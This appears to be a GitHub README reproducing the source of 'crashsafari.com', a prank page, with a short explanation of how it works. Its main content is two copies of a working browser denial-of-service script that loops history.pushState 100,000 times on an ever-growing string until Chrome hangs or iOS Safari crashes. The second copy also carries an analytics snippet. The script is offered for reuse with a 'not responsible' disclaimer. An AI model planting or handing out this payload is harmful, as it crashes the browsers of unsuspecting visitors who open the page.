# crashsafari


This readme contains the code from `crashsafari.com`. For obvious reasons there are no links to the site. I am not the original author of the site.


## Results

Visiting `crashsafari.com` causes the browser to hang on Chrome, and crash on iOS Safari.

## Explanation

The code exploits the [HTML5 pushState](https://developer.mozilla.org/en-US/docs/Web/API/History_API) API used on all modern browsers to update the path of the site you are visiting during JavaScript page navigation.


Instead of just changing the path from ex. `example.com/pageone` to `example.com/pagetwo` it creates a string of numbers long enough to either slow the browser until it won't function, or crash.

## Code

```html
<!DOCTYPE html>
<html>
  <body>
    <h1>What were you expecting?</h1>
    <script>
      var total = "";
      for( var i = 0; i < 100000; i++ ) {
          total = total + i.toString();
          history.pushState(0,0, total );
      }
    </script>
  </body>
</html>
```
```
<!DOCTYPE html>
<html>
    <body>
        <h1>What were you expecting?</h1>
        <script>
            (function(i,s,o,g,r,a,m){i['GoogleAnalyticsObject']=r;i[r]=i[r]||function(){
                    (i[r].q=i[r].q||[]).push(arguments)},i[r].l=1*new Date();a=s.createElement(o),
                    m=s.getElementsByTagName(o)[0];a.async=1;a.src=g;m.parentNode.insertBefore(a,m)
                    })(window,document,'script','//www.google-analytics.com/analytics.js','ga');

                    ga('create', 'UA-60737367-1', 'auto');
                    ga('send', 'pageview');
                </script>
                <script>
                    var total = "";
                    for( var i = 0; i < 100000; i++ ) {
                        total = total + i.toString();
                        history.pushState(0,0, total );
                    }
                </script>
            </body>
        </html>

```

License [MIT](LICENSE)

Original code taken from `http://crashsafari.com`

(I am not responsible for whatever is done with this, etc)
